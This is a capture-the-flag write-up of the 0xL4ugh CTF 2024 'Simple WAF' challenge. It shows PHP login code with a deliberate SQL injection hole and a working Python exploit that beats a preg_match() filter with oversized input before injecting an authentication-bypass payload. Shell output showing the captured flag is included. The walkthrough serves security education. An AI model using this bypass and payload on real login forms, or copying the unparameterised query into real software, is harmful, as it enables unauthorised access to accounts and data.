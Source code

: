 # Simple WAF

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- Solved by: @.h0ps
- Contributor: @Colonneil
- 42 solves / 198 points
- Difficulty: Medium
- Author: abdoghazy
- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

i whitelisted input values so, i think iam safe : P

[Link](http://20.115.83.90:1339/)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211160535.png)

## Enumeration

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211160703.png)

In here, we can login as an account.

Although this page has 2 links: "Forget password?" and "Sign up", they both return HTTP status "404 Not Found":

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211160848.png)

In the login page, we can try to enter some dummy credentials:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211161017.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211161026.png)

When we entered an incorrect credential, it'll pop up an alert box with text "Wrong Creds".

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211161119.png)

When we clicked the "Login" button, it'll send a POST request to `/` with parameter `username`, `password`, and `login-submit`.

**In this challenge, we can download a [file](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/0xL4ugh-CTF-2024/Web/Simple-WAF/simple_waf_togive.zip):**
```shell
┌[siunam♥Mercury]-(~/ctf/0xL4ugh-CTF-2024/Web/Simple-WAF)-[2024.02.11|16:06:45(HKT)]
└> file simple_waf_togive.zip 
simple_waf_togive.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
┌[siunam♥Mercury]-(~/ctf/0xL4ugh-CTF-2024/Web/Simple-WAF)-[2024.02.11|16:06:48(HKT)]
└> unzip simple_waf_togive.zip 
Archive:  simple_waf_togive.zip
  inflating: init.sh                 
   creating: src/
  inflating: src/db.php              
  inflating: src/index.php           
  inflating: Dockerfile              
  inflating: init.db                 
```

Let's read through this application's source code!

Luckily, this application is really simple.

**Logic of endpoint `/` POST request:**
```php
[...]
if(isset($_POST['login-submit']))
{
    if(!empty($_POST['username'])&&!empty($_POST['password']))
    {
        $username=$_POST['username'];
        $password=md5($_POST['password']);
        if(waf($username))
        {
            die("WAF Block");
        }
        else
        {
            $res = $conn->query("select * from users where username='$username' and password='$password'");
                                                                    
            if($res->num_rows ===1)
            {
                echo "0xL4ugh{Fake_Flag}";
            }
            else
            {
                echo "<script>alert('Wrong Creds')</script>";
            }
    }

    }
    else
    {
        echo "<script>alert('Please Fill All Fields')</script>";
    }
}
[...]
```

When we send a POST request with parameter `username`, `password`, and `login-submit`, it'll **check our `username` value against a "WAF"** (Web Application Firewall). After that, it'll execute a SQL statement to select a user from table `users` with our provided `username` and `password`.

However, **the SQL statement didn't use prepared statement**. Hence, **it's vulnerable to SQL injection**.

That being said, **we should be able to bypass the authentication with a simple SQL injection payload**.

**But before we do that, let's check out the `waf()` function:**
```php
[...]
function waf($input)
{
    if(preg_match("/([^a-z])+/s",$input))
    {
        return true;
    }
    else
    {
        return false;
    }
}
[...]
```

In here, our `username` is **being checked against a regular expression pattern** with PHP built-in function **`preg_match()`**.

In the regular expression pattern, it only allows the input is starts with 1 or more lowercase character `a` through `z`, and excluding newline characters (`s` modifier).

Hmm... **How can we bypass the WAF to inject our SQL injection payload**??

Based on my experience, **PHP is a weird language, sometimes it can do really weird stuff**, like let's say the built-in function `preg_match()`.

According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#length-error-bypass), when a **very large valid input** is being parsed to `preg_match()`, **it'll just hit the limit and can't process it**. Hence, we can bypass the regular expression check by just sending a large valid input!

## Exploitation

**Armed with above information, we can write a simple Python script to send a large valid input, and append our SQL injection payload!**
```python
#!/usr/bin/env python3
import requests

def main():
    url = 'http://20.115.83.90:1339/'
    payload = 'A' * 1000001
    payload += '\' OR 1=1-- -'
    data = {
        'username': payload,
        'password': 'foobar',
        'login-submit': ''
    }

    response = requests.post(url, data=data)
    responseText = response.text
    if '0xL4ugh{' not in responseText:
        print('[-] The exploit failed...')
        exit(0)

    flag = responseText.split('\n')[0].strip()
    print(f'[+] The exploit worked! Here\'s the flag:\n{flag}')

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥Mercury]-(~/ctf/0xL4ugh-CTF-2024/Web/Simple-WAF)-[2024.02.11|16:49:12(HKT)]
└> python3 exploit.py
[+] The exploit worked! Here's the flag:
0xL4ugh{0ohh_You_Brok3_My_Wh1te_List!!!}
```

- **Flag: `0xL4ugh{0ohh_You_Brok3_My_Wh1te_List!!!}`**

## Conclusion

What we've learned:

1. PHP built-in function `preg_match()` bypass